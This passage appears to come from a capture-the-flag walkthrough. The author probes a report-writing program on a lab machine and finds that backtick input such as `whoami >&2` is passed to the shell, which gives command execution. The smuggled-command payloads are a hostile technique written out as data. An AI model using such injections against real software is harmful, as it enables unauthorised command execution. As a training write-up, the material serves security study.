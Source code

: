 ```
ENTER COMMAND: $ 1
SELECTED: 1

ENTER REPORT, END WITH NEW LINE:

$ this is my first report!

REPORT [this is my first report!@
SENDING TO REPORT MODULE

[+] WRITING REPORT TO /home/anansi/REPORTS/20150910050336.rep
[+] DATA SUCCESSFULLY ENCRYPTED
[+] DATA SUCCESSFULLY RECORDED
[+] RECORDED [\xbf\xa3\xa2\xb8����\xa6\xb2����\xb8\xbf����\xa4\xb9\xbf���]
```

From the text, it appears that our report is encrypted in some fashion and is stored at `/home/anansi/REPORTS/20150910050336.rep`. The binary for handing reporting is found in the `/repo` directory, so analyzing that will probably be of use, but we can try some low hanging fruit first before diving into the reverse engineering.

After a few fuzzing attempts, the following is shown:

```
$ `notacommand`

REPORT [`notacommand`rst report!@ing]
SENDING TO REPORT MODULE

sh: 1: notacommand: not found
```

Que wha?! We are given a command not found error message when trying to execute commands via back ticks. Could this mean command execution?

```
$ `whoami`

REPORT [`whoami`mand`rst report!@```]
SENDING TO REPORT MODULE

sh: 1: Syntax error: EOF in backquote substitution
```

Hmm.. we are given error messages. Could we receive command output by piping to stderr?

```
$ `whoami >&2`

REPORT [`whoami >&2`4]
SENDING TO REPORT MODULE

anansi
```
